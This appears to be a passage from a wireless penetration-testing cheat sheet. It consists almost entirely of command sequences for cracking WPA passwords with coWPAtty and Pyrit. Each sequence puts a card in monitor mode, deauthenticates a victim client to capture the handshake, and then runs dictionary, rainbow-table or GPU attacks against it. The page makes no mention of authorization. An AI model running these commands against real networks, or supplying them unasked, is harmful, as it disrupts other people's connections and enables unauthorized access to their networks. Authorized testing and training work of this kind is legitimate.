 #### Cracking WPA with coWPAtty

> Better for PMK Rainbow table attacks

```powershell
# put into monitor mode on our desired channel
airmon-ng start wlan0 3 # only a particular channel : 3
airodump-ng -c 3 --bssid $AP_MAC -w wpacow mon0 # see no client

# deauthentication to get the WPA handshake
aireplay-ng -0 1 -a $AP_MAC -c $VICTIM_MAC mon0

# coWPAtty dictionary mode (slow)
cowpatty -r wpacow-01.cap -f /pentest/passwords/john/password.lst -2 -s $AP_SSID

# coWPAtty rainbow table mode (fast)
genpmk -f /pentest/passwords/john/password.lst -d wifuhashes -s $AP_SSID
cowpatty -r wpacow-01.cap -d wifuhashes -2 -s $AP_SSID
```

#### Cracking WPA with Pyrit

> Can use GPU

```powershell
# put into monitor mode on our desired channel
airmon-ng start wlan0 3 # only a particular channel : 3
airodump-ng -c 3 --bssid $AP_MAC -w wpapyrit mon0 # see no client

# deauthentication to get the WPA handshake
aireplay-ng -0 1 -a $AP_MAC -c $VICTIM_MAC mon0

# clean the cap and extract only good packets
pyrit -r wpapyrit-01.cap analyze
pyrit -r wpapyrit-01.cap -o wpastripped.cap strip

# dictionary attack - slow ++
pyrit -r wpapyrit-01.cap -i /pentest/passwords/john/password.lst -b $AP_MAC attack_passthrough

# pre-computed hashes attack - slow on CPU
pyrit eval # pwds in database
pyrit -i /pentest/passwords/john/password.lst import_passwords # import in the database
pyrit -e $AP_SSID create_essid
pyrit batch # generate
pyrit -r wpastripped.cap attack_db 

# gpu power attack - fast on GPU
pyrit list_cores
pyrit -i /pentest/passwords/john/password.lst import_passwords # import in the database
pyrit -e $AP_SSID create_essid
pyrit batch
pyrit -r wpastripped.cap attack_db 
```
